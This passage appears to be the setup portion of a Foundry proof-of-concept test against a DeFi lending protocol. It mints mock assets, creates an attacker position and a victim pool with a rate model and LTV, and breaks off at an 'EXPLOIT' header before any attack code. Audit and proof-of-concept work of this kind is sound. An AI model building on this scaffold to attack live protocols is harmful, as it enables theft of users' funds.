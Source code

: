```solidity

            borrowAsset.mint(mockPoolOwner, amountOfAsset);
            collateralAsset.mint(mockPoolOwner, amountOfAsset);

            borrowAsset.mint(liquidator, amountOfAsset);
            // == Finish minting assets

            // == Making the position
            vm.startPrank(attacker);
            bytes32 salt = bytes32(uint256(98));
            address owner = attacker;
            data = abi.encodePacked(owner, salt);
            (attPosition,) = protocol.portfolioLens().predictAddress(owner, salt);
            action = Action({ op: Operation.NewPosition, data: data });
            positionManager.process(attPosition, action);
            vm.stopPrank();

            vm.startPrank(positionManager.owner());
            positionManager.toggleKnownAsset(address(borrowAsset));
            // positionManager.toggleKnownAsset(address(collateralAsset)); // Already a known asset
            vm.stopPrank();
            // == Finish making the position

            // == mockPoolOwner making the pool
            // // ==== Setting the rateModel
            address rateModel = address(new LinearRateModel(1e18, 2e18));
            bytes32 RATE_MODEL_KEY = 0xc6e8fa81936202e651519e9ac3074fa4a42c65daad3fded162373ba224d6ea96;
            vm.prank(protocolOwner);
            registry.setRateModel(RATE_MODEL_KEY, rateModel);
            // // ==== Finished Setting the rate model
            vm.startPrank(mockPoolOwner);
            vicPoolId = pool.initializePool(
                mockPoolOwner, // owner
                address(borrowAsset), // asset to use
                1e30, // pool cap
                RATE_MODEL_KEY // rate model key in registry
                );
            // // ==== Setting the LTV
            riskEngine.requestLtvUpdate(vicPoolId, address(collateralAsset), 0.95e18); // Using the same asset to borrow one in this case
            riskEngine.acceptLtvUpdate(vicPoolId, address(collateralAsset));
            // // ==== Finish setting the LTv
            vm.stopPrank();
            // == Finished making the pool

            // == Attacker setting up the position
            vm.startPrank(attacker);
            data = abi.encodePacked(address(collateralAsset));
            action = Action({ op: Operation.AddToken, data: data });
            positionManager.process(
                attPosition,
                action
            );
            collateralAsset.transfer(address(attPosition), amountOfAsset/2);
            vm.stopPrank();
            // == Finish Attacker setting up the position
        }

        /**
        * =============================
        *           EXPLOIT
        * =============================
```